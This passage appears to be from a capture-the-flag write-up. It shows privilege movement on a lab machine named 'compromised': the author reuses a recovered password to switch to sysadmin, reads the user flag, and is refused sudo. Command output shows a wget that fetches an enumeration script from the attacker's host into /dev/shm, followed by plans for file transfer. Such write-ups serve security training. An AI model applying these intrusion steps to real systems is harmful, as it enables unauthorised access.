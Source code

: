 
It looked like the password had been changed a few times. I took note of each of the passwords to see if any of them had been reused.  Using the password `3*NLJE32I$Fe` I was able to switch users to `sysadmin`.

### User.txt

```text
mysql@compromised:~$ su sysadmin
Password: 
sysadmin@compromised:/var/lib/mysql$ cd ~
sysadmin@compromised:~$ ls -la
total 20
drwxr-x--- 2 root sysadmin 4096 Aug 31 03:16 .
drwxr-xr-x 3 root root     4096 May 13  2020 ..
lrwxrwxrwx 1 root sysadmin    9 May 13  2020 .bash_history -> /dev/null
-rw-r--r-- 1 root sysadmin 3771 May 13  2020 .bashrc
-rw-r--r-- 1 root sysadmin  807 May 13  2020 .profile
-r--r----- 1 root sysadmin   33 Dec 25 05:48 user.txt
sysadmin@compromised:~$ cat user.txt 
50df571e8910dbb06fd65f5de92de03d
```

## Path to Power \(Gaining Administrator Access\)

### Enumeration as `sysadmin`

```text
sysadmin@compromised:~$ sudo -l
sudo: unable to resolve host compromised: Resource temporarily unavailable
[sudo] password for sysadmin: 
Sorry, user sysadmin may not run sudo on compromised.
```

The user `sysadmin` was not able to use `sudo`.  \(What kind of sysadmin is this?\)

```text
sysadmin@compromised:/dev/shm$ wget http://10.10.15.98/linpeas.sh
--2020-12-27 20:45:23--  http://10.10.15.98/linpeas.sh
Connecting to 10.10.15.98:80... 
sysadmin@compromised:/dev/shm$ ping 10.10.15.98
PING 10.10.15.98 (10.10.15.98) 56(84) bytes of data.
ping: sendmsg: Operation not permitted
ping: sendmsg: Operation not permitted
^C
--- 10.10.15.98 ping statistics ---
2 packets transmitted, 0 received, 100% packet loss, time 1017ms

sysadmin@compromised:/dev/shm$
```

I was unable to ping my computer, so I was worried that I wouldn't be able to connect back to my machine. I thought about using base64 "copy-pasta" to transfer files, but after an "Oh duh!" moment I remembered that I was able to SSH in, and therefore could use SCP to get files in.
